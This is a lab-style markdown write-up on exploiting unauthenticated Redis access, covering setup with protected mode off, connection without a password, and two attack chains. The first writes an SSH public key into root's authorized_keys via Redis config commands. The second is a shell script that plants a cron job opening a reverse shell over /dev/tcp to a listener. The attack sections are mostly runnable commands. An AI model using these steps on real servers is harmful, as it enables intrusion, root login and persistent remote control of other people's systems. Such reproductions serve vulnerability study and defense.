



# Unauthorized Access Vulnerability in Redis

## Introduction

Redis is an open source storage system that supports persistent storage of data, supports key-value, list, set and other data structure storage, and supports backup.

However, if redis has unauthorized access, it will lead to the attacker being able to access redis internal resources without authentication, obtain sensitive files, and even execute flushall to clear data, write ssh public key to the root account and directly remote login to the target server.

## Environment Setup

```
wget https://download.redis.io/releases/redis-5.0.14.tar.gz
tar xvf redis-5.0.14.tar.gz
cd  redis-5.0.14
make -j 4
make install
```

Just run redis-server

```
redis-server --protected-mode no
```

## Vulnerability Reproduction

```
root@l-virtual-machine:/opt# redis-cli -h 192.168.32.141
192.168.32.141:6379> keys *
(empty array)
```



Access SSH private key

```sh
$ ssh-keygen -t  rsa
$ (echo -e "  "; cat /root/.ssh/id_rsa.pub; echo -e "  ") > foo.txt
$ cat foo.txt | redis-cli -h 192.168.32.141 -x set test
$ redis-cli -h 192.168.32.141
$ 192.168.1.11:6379> config set dir /root/.ssh/
OK
$ 192.168.1.11:6379> config get dir
1) "dir"
2) "/root/.ssh"
$ 192.168.1.11:6379> config set dbfilename "authorized_keys"
OK
$ 192.168.1.11:6379> save
OK
```


Reverse shell

> This method failed in ubuntu due to the inability to ignore garbled code.
>
> 

```sh
#shell.sh
echo -e "\n\n\n*/1 * * * * bash -i >&/dev/tcp/192.168.32.141/9999 0>&1\n\n\n"|redis-cli -h $1 -p $2 -x set 1
redis-cli -h $1 -p $2 config set dir /var/spool/cron/
redis-cli -h $1 -p $2 config set dbfilename root
redis-cli -h $1 -p $2 save
redis-cli -h $1 -p $2 quit
```

